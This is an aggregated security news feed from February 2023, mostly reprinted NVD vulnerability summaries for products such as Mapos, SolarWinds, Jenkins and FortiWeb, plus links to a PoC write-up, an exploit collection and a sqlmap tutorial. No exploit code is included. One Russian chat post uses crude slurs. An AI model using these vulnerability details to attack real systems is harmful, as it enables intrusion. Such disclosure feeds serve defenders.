Multiple Cross Site Scripting (XSS) vulnerabilities in Mapos 4.39.0 allow attackers to execute arbitrary code. Affects the following parameters: (1) dataInicial, (2) dataFinal, (3) tipocliente, (4) format, (5) precoInicial, (6) precoFinal, (7) estoqueInicial, (8) estoqueFinal, (9) de_id, (10) ate_id, (11) clientes_id, (12) origem, (13) cliente, (14) responsavel, (15) status, (16) tipo, (17) situacao in file application/controllers/Relatorios.php; (18) preco, (19) nome, (20) descricao, (21) idServicos, (22) id in file application/controllers/Servicos.php; (23) senha, (24) permissoes_id, (25) idUsuarios, (26) situacao, (27) nome, (28) rg, (29) cpf, (30) cep, (31) rua, (32) numero, (33) bairro, (34) cidade, (35) estado, (36) email, (37) telefone, (38) celular in file application/controllers/Usuarios.php; (39) dataVenda, (40) observacoes, (41) observacoes_cliente, (42) clientes_id, (43) usuarios_id, (44) idVendas, (45) id, (46) idVendasProduto, (47) preco, (48) quantidade, (49) idProduto, (50) produto, (51) desconto, (52) tipoDesconto, (53) resultado, (54) vendas_id, (55) vencimento, (56) recebimento, (57) valor, (58) recebido, (59) formaPgto, (60) tipo in file application/controllers/Vendas.php; (61) situacao, (62) periodo, (63) vencimento_de, (64) vencimento_ate, (65) tipo, (66) status, (67) cliente in file application/views/financeiro/lancamentos.php; (68) year in file application/views/mapos/painel.php; (69) pesquisa in file application/views/os/os.php; (70) etiquetaCode in file application/views/relatorios/imprimir/imprimirEtiquetas.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-23980

<blockquote>
‼ CVE-2021-23980 ‼

A mutation XSS affects users calling bleach.clean with all of: svg or math in the allowed tags p or br in allowed tags style, title, noscript, script, textarea, noframes, iframe, or xmp in allowed tags the keyword argument strip_comments&#61;False Note: none of the above tags are in the default allowed tags and strip_comments defaults to True.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22380

<blockquote>
‼ CVE-2023-22380 ‼

A path traversal vulnerability was identified in GitHub Enterprise Server that allowed arbitrary file reading when building a GitHub Pages site. To exploit this vulnerability, an attacker would need permission to create and build a GitHub Pages site on the GitHub Enterprise Server instance. This vulnerability affected all versions of GitHub Enterprise Server since 3.7 and was fixed in version 3.7.6. This vulnerability was reported via the GitHub Bug Bounty program.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48324

<blockquote>
‼ CVE-2022-48324 ‼

Multiple Cross Site Scripting (XSS) vulnerabilities in Mapos 4.39.0 allow attackers to execute arbitrary code. Affects the following parameters: (1) pesquisa, (2) data, (3) data2, (4) nome, (5) descricao, (6) idDocumentos, (7) id in file application/controllers/Arquivos.php; (8) senha, (9) nomeCliente, (10) contato, (11) documento, (12) telefone, (13) celular, (14) email, (15) rua, (16) numero, (17) complemento, (18) bairro, (19) cidade, (20) estado, (21) cep, (22) idClientes, (23) id in file application/controllers/Clientes.php; (24) id, (25) tipo, (26) forma_pagamento, (27) gateway_de_pagamento, (28) excluir_id, (29) confirma_id, (30) cancela_id in file application/controllers/Cobrancas.php; (31) vencimento_de, (32) vencimento_ate, (33) cliente, (34) tipo, (35) status, (36) valor_desconto, (37) desconto, (38) periodo, (39) per_page, (40) urlAtual, (41) vencimento, (42) recebimento, (43) valor, (44) recebido, (45) formaPgto, (46) desconto_parc, (47) entrada, (48) qtdparcelas_parc, (49) valor_parc, (50) dia_pgto, (51) dia_base_pgto, (52) comissao, (53) descricao_parc, (54) cliente_parc, (55) observacoes_parc, (56) formaPgto_parc, (57) tipo_parc, (58) pagamento, (59) pago, (60) valor_desconto_editar, (61) descricao, (62) fornecedor, (63) observacoes, (64) id in file application/controllers/Financeiro.php; (65) refGarantia, (66) textoGarantia, (67) idGarantias in file application/controllers/Garantias.php; (68) email, (69) senha in file application/controllers/Login.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48326

<blockquote>
‼ CVE-2022-48326 ‼

Multiple Cross Site Scripting (XSS) vulnerabilities in Mapos 4.39.0 allow attackers to execute arbitrary code. Affects the following parameters: (1) nome, (2) aCliente, (3) eCliente, (4) dCliente, (5) vCliente, (6) aProduto, (7) eProduto, (8) dProduto, (9) vProduto, (10) aServico, (11) eServico, (12) dServico, (13) vServico, (14) aOs, (15) eOs, (16) dOs, (17) vOs, (18) aVenda, (19) eVenda, (20) dVenda, (21) vVenda, (22) aGarantia, (23) eGarantia, (24) dGarantia, (25) vGarantia, (26) aArquivo, (27) eArquivo, (28) dArquivo, (29) vArquivo, (30) aPagamento, (31) ePagamento, (32) dPagamento, (33) vPagamento, (34) aLancamento, (35) eLancamento, (36) dLancamento, (37) vLancamento, (38) cUsuario, (39) cEmitente, (40) cPermissao, (41) cBackup, (42) cAuditoria, (43) cEmail, (44) cSistema, (45) rCliente, (46) rProduto, (47) rServico, (48) rOs, (49) rVenda, (50) rFinanceiro, (51) aCobranca, (52) eCobranca, (53) dCobranca, (54) vCobranca, (55) situacao, (56) idPermissao, (57) id in file application/controllers/Permissoes.php; (58) precoCompra, (59) precoVenda, (60) descricao, (61) unidade, (62) estoque, (63) estoqueMinimo, (64) idProdutos, (65) id, (66) estoqueAtual in file application/controllers/Produtos.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-29494

<blockquote>
‼ CVE-2022-29494 ‼

Improper input validation in firmware for OpenBMC in some Intel(R) platforms before versions egs-0.91-179 and bhs-04-45 may allow an authenticated user to potentially enable denial of service via network access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-27234

<blockquote>
‼ CVE-2022-27234 ‼

Server-side request forgery in the CVAT software maintained by Intel(R) before version 2.0.1 may allow an authenticated user to potentially enable information disclosure via network access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-35729

<blockquote>
‼ CVE-2022-35729 ‼

Out of bounds read in firmware for OpenBMC in some Intel(R) platforms before version 0.72 may allow unauthenticated user to potentially enable denial of service via network access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48325

<blockquote>
‼ CVE-2022-48325 ‼

Multiple Cross Site Scripting (XSS) vulnerabilities in Mapos 4.39.0 allow attackers to execute arbitrary code. Affects the following parameters: (1) year, (2) oldSenha, (3) novaSenha, (4) termo, (5) nome, (6) cnpj, (7) ie, (8) cep, (9) logradouro, (10) numero, (11) bairro, (12) cidade, (13) uf, (14) telefone, (15) email, (16) id, (17) app_name, (18) per_page, (19) app_theme, (20) os_notification, (21) email_automatico, (22) control_estoque, (23) notifica_whats, (24) control_baixa, (25) control_editos, (26) control_edit_vendas, (27) control_datatable, (28) pix_key, (29) os_status_list, (30) control_2vias, (31) status, (32) start, (33) end in file application/controllers/Mapos.php; (34) token, (35) senha, (36) email, (37) nomeCliente, (38) documento, (39) telefone, (40) celular, (41) rua, (42) numero, (43) complemento, (44) bairro, (45) cidade, (46) estado, (47) cep, (48) idClientes, (49) descricaoProduto, (50) defeito in file application/controllers/Mine.php; (51) pesquisa, (52) status, (53) data, (54) data2, (55) dataInicial, (56) dataFinal, (57) termoGarantia, (58) garantias_id, (59) clientes_id, (60) usuarios_id, (61) idOs, (62) garantia, (63) descricaoProduto, (64) defeito, (65) observacoes, (66) laudoTecnico, (67) id, (68) preco, (69) quantidade, (70) idProduto, (71) idOsProduto, (72) produto, (73) idServico, (74) idOsServico, (75) desconto, (76) tipoDesconto, (77) resultado, (78) vencimento, (79) recebimento, (80) os_id, (81) valor, (82) recebido, (83) formaPgto, (84) tipo, (85) anotacao, (86) idAnotacao in file application/controllers/Os.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-33964

<blockquote>
‼ CVE-2022-33964 ‼

Improper input validation in the Intel(R) SUR software before version 2.4.8902 may allow an unauthenticated user to potentially enable escalation of privilege via network access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-26843

<blockquote>
‼ CVE-2022-26843 ‼

Insufficient visual distinction of homoglyphs presented to user in the Intel(R) oneAPI DPC++/C++ Compiler before version 2022.1 for Intel(R) oneAPI Toolkits before version 2022.2 may allow an unauthenticated user to potentially enable escalation of privilege via network access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-30304

<blockquote>
‼ CVE-2022-30304 ‼

An improper neutralization of input during web page generation vulnerability [CWE-79] in FortiAnalyzer versions prior to 7.2.1, 7.0.4 and 6.4.8 may allow a remote unauthenticated attacker to perform a stored cross site scripting (XSS) attack via the URL parameter observed in the FortiWeb attack event logview in FortiAnalyzer.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-42761

<blockquote>
‼ CVE-2021-42761 ‼

A condition for session fixation vulnerability [CWE-384] in the session management of FortiWeb versions 6.4 all versions, 6.3.0 through 6.3.16, 6.2.0 through 6.2.6, 6.1.0 through 6.1.2, 6.0.0 through 6.0.7, 5.9.0 through 5.9.1 may allow a remote, unauthenticated attacker to infer the session identifier of other users and possibly usurp their session.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-25987

<blockquote>
‼ CVE-2022-25987 ‼

Improper handling of Unicode encoding in source code to be compiled by the Intel(R) C++ Compiler Classic before version 2021.6 for Intel(R) oneAPI Toolkits before version 2022.2 may allow an unauthenticated user to potentially enable escalation of privilege via network access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-26837

<blockquote>
‼ CVE-2022-26837 ‼

Improper input validation in the BIOS firmware for some Intel(R) Processors may allow a privileged user to potentially enable escalation of privilege via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-30299

<blockquote>
‼ CVE-2022-30299 ‼

A path traversal vulnerability [CWE-23] in the API of FortiWeb 7.0.0 through 7.0.1, 6.3.0 through 6.3.19, 6.4 all versions, 6.2 all versions, 6.1 all versions, 6.0 all versions may allow an authenticated attacker to retrieve specific parts of files from the underlying file system via specially crafted web requests.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-30300

<blockquote>
‼ CVE-2022-30300 ‼

A relative path traversal vulnerability [CWE-23] in FortiWeb 7.0.0 through 7.0.1, 6.3.6 through 6.3.18, 6.4 all versions may allow an authenticated attacker to obtain unauthorized access to files and data via specifically crafted HTTP GET requests.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# proxy_bar
`2023-02-16`

* https://github.com/j00sean/CVE-2022-44666

<blockquote>
CVE-2022-44666
WriteUp по одной забытой уязвимости Windows (0day): выход атрибута href управления системной ссылкой Microsoft Windows Contacts (VCF/Contact/LDAP), который не был полностью исправлен как CVE-2022-44666 в исправлениях, выпущенных в декабре 2022 года. А значит, жир еще впереди.
POC в наличии
Go

&#35;win &#35;poc &#35;vuln
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/j00sean/CVE-2022-44666">
https://github.com/j00sean/CVE-2022-44666
</a>
<blockquote>
Write-up for another forgotten Windows vulnerability (0day): Microsoft Windows Contacts (VCF/Contact/LDAP) syslink control href attribute escape, which was not fully fixed as CVE-2022-44666 in the ...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23926

<blockquote>
‼ CVE-2023-23926 ‼

APOC (Awesome Procedures on Cypher) is an add-on library for Neo4j. An XML External Entity (XXE) vulnerability found in the apoc.import.graphml procedure of APOC core plugin prior to version 5.5.0 in Neo4j graph database. XML External Entity (XXE) injection occurs when the XML parser allows external entities to be resolved. The XML parser used by the apoc.import.graphml procedure was not configured in a secure way and therefore allowed this. External entities can be used to read local files, send HTTP requests, and perform denial-of-service attacks on the application. Abusing the XXE vulnerability enabled assessors to read local files remotely. Although with the level of privileges assessors had this was limited to one-line files. With the ability to write to the database, any file could have been read. Additionally, assessors noted, with local testing, the server could be crashed by passing in improperly formatted XML. The minimum version containing a patch for this vulnerability is 5.5.0. Those who cannot upgrade the library can control the allowlist of the procedures that can be used in your system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-40555

<blockquote>
‼ CVE-2021-40555 ‼

Cross site scripting (XSS) vulnerability in flatCore-CMS 2.2.15 allows attackers to execute arbitrary code via description field on the new page creation form.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# sysadm_in_channel
`2023-02-16`

<blockquote>
/ ClamAV fixed a possible remote code execution vulnerability

https://blog.clamav.net/2023/02/clamav-01038-01052-and-101-patch.html
</blockquote>

<table><tr><td><b>→</b><a href="https://blog.clamav.net/2023/02/clamav-01038-01052-and-101-patch.html">
https://blog.clamav.net/2023/02/clamav-01038-01052-and-101-patch.html
</a>
<blockquote>
 Today, we are releasing the following critical patch versions for ClamAV: 0.103.8 0.105.2 1.0.1 ClamAV 0.104 has reached end-of-life accord...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38239

<blockquote>
‼ CVE-2021-38239 ‼

SQL Injection vulnerability in dataease before 1.2.0, allows attackers to gain sensitive information via the orders parameter to /api/sys_msg/list/1/10.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-33925

<blockquote>
‼ CVE-2021-33925 ‼

SQL Injection vulnerability in nitinparashar30 cms-corephp through commit bdabe52ef282846823bda102728a35506d0ec8f9 (May 19, 2021) allows unauthenticated attackers to gain escilated privledges via a crafted login.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2020-19825

<blockquote>
‼ CVE-2020-19825 ‼

Cross Site Scripting (XSS) vulnerability in kevinpapst kimai2 1.30.0 in /src/Twig/Runtime/MarkdownExtension.php, allows attackers to gain escalated privileges.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2020-21120

<blockquote>
‼ CVE-2020-21120 ‼

SQL Injection vulnerability in file home\controls\cart.class.php in UQCMS 2.1.3, allows attackers execute arbitrary commands via the cookie_cart parameter to /index.php/cart/num.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-34117

<blockquote>
‼ CVE-2021-34117 ‼

SQL Injection vulnerability in SEO Panel 4.9.0 in api/user.api.php in function getUserName in the username parameter, allows attackers to gain sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38867

<blockquote>
‼ CVE-2022-38867 ‼

SQL Injection vulnerability in rttys versions 4.0.0, 4.0.1, and 4.0.2 in api.go, allows attackers to execute arbitrary code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40016

<blockquote>
‼ CVE-2022-40016 ‼

Use After Free (UAF) vulnerability in ireader media-server before commit 3e0f63f1d3553f75c7d4eb32fa7c7a1976a9ff84 in librtmp, allows attackers to cause a denial of service.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2020-21119

<blockquote>
‼ CVE-2020-21119 ‼

SQL Injection vulnerability in Kliqqi-CMS 2.0.2 in admin/admin_update_module_widgets.php in recordIDValue parameter, allows attackers to gain escalated privileges and execute arbitrary code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38868

<blockquote>
‼ CVE-2022-38868 ‼

SQL Injection vulnerability in Ehoney version 2.0.0 in models/protocol.go and models/images.go, allows attackers to execute arbitrary code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45543

<blockquote>
‼ CVE-2022-45543 ‼

Cross site scripting (XSS) vulnerability in DiscuzX 3.4 allows attackers to execute arbitrary code via the datetline, title, tpp, or username parameters via the audit search.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47506

<blockquote>
‼ CVE-2022-47506 ‼

SolarWinds Platform was susceptible to the Directory Traversal Vulnerability. This vulnerability allows a local adversary with authenticated account access to edit the default configuration, enabling the execution of arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38111

<blockquote>
‼ CVE-2022-38111 ‼

SolarWinds Platform was susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with Orion admin-level account access to SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47504

<blockquote>
‼ CVE-2022-47504 ‼

SolarWinds Platform was susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with Orion admin-level account access to SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47503

<blockquote>
‼ CVE-2022-47503 ‼

SolarWinds Platform was susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with Orion admin-level account access to SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23836

<blockquote>
‼ CVE-2023-23836 ‼

SolarWinds Platform version 2022.4.1 was found to be susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with Orion admin-level account access to the SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23467

<blockquote>
‼ CVE-2023-23467 ‼

Media CP Media Control Panel latest version. Reflected XSS possible through unspecified endpoint.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47507

<blockquote>
‼ CVE-2022-47507 ‼

SolarWinds Platform was susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with Orion admin-level account access to SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23459

<blockquote>
‼ CVE-2023-23459 ‼

Priority Windows may allow Command Execution via SQL Injection using an unspecified method.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-15`

<blockquote>
OX App Suite Cross Site Scripting / Server-Side Request Forgery
http://exploit.kitploit.com/2023/02/ox-app-suite-cross-site-scripting.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/ox-app-suite-cross-site-scripting.html">
https://exploit.kitploit.com/2023/02/ox-app-suite-cross-site-scripting.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-15`

<blockquote>
BMC Control M SQL Injection / Denial Of Service
http://exploit.kitploit.com/2023/02/bmc-control-m-sql-injection-denial-of.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/bmc-control-m-sql-injection-denial-of.html">
https://exploit.kitploit.com/2023/02/bmc-control-m-sql-injection-denial-of.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25578

<blockquote>
‼ CVE-2023-25578 ‼

Starlite is an Asynchronous Server Gateway Interface (ASGI) framework. Prior to version 1.5.2, the request body parsing in `starlite` allows a potentially unauthenticated attacker to consume a large amount of CPU time and RAM. The multipart body parser processes an unlimited number of file parts and an unlimited number of field parts. This is a remote, potentially unauthenticated Denial of Service vulnerability. This vulnerability affects applications with a request handler that accepts a `Body(media_type&#61;RequestEncodingType.MULTI_PART)`. The large amount of CPU time required for processing requests can block all available worker processes and significantly delay or slow down the processing of legitimate user requests. The large amount of RAM accumulated while processing requests can lead to Out-Of-Memory kills. Complete DoS is achievable by sending many concurrent multipart requests in a loop. Version 1.51.2 contains a patch for this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# ctfchat
`2023-02-15`

<blockquote>
Просто вайтхэты живут на выебонах и с ЧСВ выше крыши. 

&quot;Рряяя, мы помогли сбербанку исправить сраную XSS и получили копеечные 30-50к рублей, на которые даже не выживешь&quot;

&quot;Ррряя, вы блэчеры все пидоры, мы, вайтхэты, заколлабимся с ФСБ и будем вас туда сливать, даже если мы с вами сука дружим 2 года&quot;
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25763

<blockquote>
‼ CVE-2023-25763 ‼

Jenkins Email Extension Plugin 2.93 and earlier does not escape various fields included in bundled email templates, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to control affected fields.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25762

<blockquote>
‼ CVE-2023-25762 ‼

Jenkins Pipeline: Build Step Plugin 2.18 and earlier does not escape job names in a JavaScript expression used in the Pipeline Snippet Generator, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to control job names.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25761

<blockquote>
‼ CVE-2023-25761 ‼

Jenkins JUnit Plugin 1166.va_436e268e972 and earlier does not escape test case class names in JavaScript expressions, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to control test case class names in the JUnit resources processed by the plugin.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25764

<blockquote>
‼ CVE-2023-25764 ‼

Jenkins Email Extension Plugin 2.93 and earlier does not escape, sanitize, or sandbox rendered email template output or log output generated during template rendering, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to create or change custom email templates.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45437

<blockquote>
‼ CVE-2022-45437 ‼

Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') vulnerability in Artica PFMS Pandora FMS v765 on all allows Cross-Site Scripting (XSS). A user with edition privileges can create a Payload in the reporting dashboard module. An admin user can observe the Payload without interaction and attacker can get information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45436

<blockquote>
‼ CVE-2022-45436 ‼

Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') vulnerability in Artica PFMS Pandora FMS v765 on all platforms, allows Cross-Site Scripting (XSS). As a manager privilege user , create a network map containing name as xss payload. Once created, admin user must click on the edit network maps and XSS payload will be executed, which could be used for stealing admin users cookie value.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-25978

<blockquote>
‼ CVE-2022-25978 ‼

All versions of the package github.com/usememos/memos/server are vulnerable to Cross-site Scripting (XSS) due to insufficient checks on external resources, which allows malicious actors to introduce links starting with a javascript: scheme.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22377

<blockquote>
‼ CVE-2023-22377 ‼

Improper restriction of XML external entity reference (XXE) vulnerability exists in tsClinical Define.xml Generator all versions (v1.0.0 to v1.4.0) and tsClinical Metadata Desktop Tools Version 1.0.3 to Version 1.1.0. If this vulnerability is exploited, an attacker may obtain an arbitrary file which meets a certain condition by reading a specially crafted XML file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47372

<blockquote>
‼ CVE-2022-47372 ‼

Stored cross-site scripting vulnerability in the Create event section in Pandora FMS Console v766 and lower. An attacker typically exploits this vulnerability by injecting XSS payloads on popular pages of a site or passing a link to a victim, tricking them into viewing the page that contains the stored XSS payload.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# sysadm_in_channel
`2023-02-15`

<blockquote>
/ Windows Graphics Component Remote Code Execution Vulnerability

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-21823
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23381

<blockquote>
‼ CVE-2023-23381 ‼

Visual Studio Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21808

<blockquote>
‼ CVE-2023-21808 ‼

.NET and Visual Studio Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-15`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21778

<blockquote>
‼ CVE-2023-21778 ‼

Microsoft Dynamics Unified Service Desk Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21553

<blockquote>
‼ CVE-2023-21553 ‼

Azure DevOps Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21823

<blockquote>
‼ CVE-2023-21823 ‼

Windows Graphics Component Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21815

<blockquote>
‼ CVE-2023-21815 ‼

Visual Studio Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-14`

<blockquote>
Exploiting SQL injection using acunetix vulnerability scanner and sqlmap
https://hakin9.org/exploiting-sql-injection-using-acunetix-vulnerability-scanner-and-sqlmap/
</blockquote>

<table><tr><td><b>→</b><a href="https://hakin9.org/exploiting-sql-injection-using-acunetix-vulnerability-scanner-and-sqlmap/">
https://hakin9.org/exploiting-sql-injection-using-acunetix-vulnerability-scanner-and-sqlmap/
</a>
<blockquote>
By Adam Karim
</blockquote>
</td></tr></table>

---

